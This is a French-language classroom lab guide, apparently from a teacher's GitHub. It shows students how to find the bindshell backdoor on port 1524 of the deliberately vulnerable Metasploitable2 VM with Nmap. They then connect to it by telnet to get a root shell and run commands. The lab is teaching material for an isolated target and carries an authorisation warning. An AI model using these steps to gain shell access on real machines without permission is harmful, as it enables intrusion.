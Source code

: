 # Vulnérabilités: Ouverture d'une "backdoor" sur la machine Metaspoitable directement avec le protocole Telnet.

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....
>Port     STATE    Service    Version
>
> 21/tcp   open  ftp   vsf......
>
> **1524/tcp    open  bindshell   Metasploitable root shell**
>  .....

* **bindshell** est unz technique pour ouvrir un port sur une machine.

On va donc essayer de se connecter directement avec le protocol Telnet sur la machine.

    telnet 192.168.56.xx 1524

* On a donc le protocole telnet
* L'adresse ip de la cible
* Le port sur lequel on veut se connecter , ici celui de bindshell le 1524

Résultats:
>
> {*] exec:  telnet 192.168.56.xx 1524
>
>trying 192.168.56.xx
>
>connected to 192.168.56.xx

------

## Test la backdoor

on peux se déplacer dans le répertoire games , créer un répertoire dirtelnetvotrenom, ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.

>[!TIP]
>
> INCONVENIENT : Telnet est a eviter car il laisse les message en clair sur le reseau sans les crypter.
>
> AVANTAGE : Telnet peut servir à tester la communication vers un port facilement.
